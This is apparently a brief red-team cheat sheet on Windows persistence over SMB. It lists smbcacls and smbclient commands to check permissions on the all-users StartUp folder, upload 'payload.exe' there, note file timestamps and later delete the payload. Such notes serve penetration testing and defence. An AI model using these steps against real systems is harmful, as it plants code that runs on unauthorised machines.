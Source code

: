 # Unix Shell

TODO: Convert the command lines to remote enumeration

## 01 - Enumerate

```
$ smbcacls -U "<username>%<password>" //<IP>/C$ "/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp"
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls "/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp"
```

Disable `showacls`

```
smb: \> showacls
```

## 02 - Exploit

Take note of the timestamps

```
smb: \> allinfo file.txt

smb: \> put payload.exe
```

## 03 - Cleanup

```
smb: \> rm payload.exe
```